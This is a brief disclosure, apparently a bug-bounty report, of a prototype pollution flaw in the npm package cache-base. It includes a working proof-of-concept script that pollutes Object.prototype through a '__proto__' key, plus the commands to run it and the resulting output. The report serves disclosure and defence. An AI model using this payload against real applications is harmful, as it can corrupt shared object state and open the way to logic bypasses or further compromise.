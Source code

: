 # Description

`cache-base` is vulnerable to `Prototype Pollution`.

# Proof of Concept

1. Create the following PoC file:

```
// poc.js
var cacheBase = require("cache-base")
const app = new cacheBase();
app.set('__proto__.polluted', 'Yes! Its Polluted');
console.log(app.get('polluted'));
```


2. Execute the following commands in terminal:

```
npm i cache-base # Install affected module
node poc.js #  Run the PoC
```

3. Check the Output:
```
Yes! Its Polluted
```
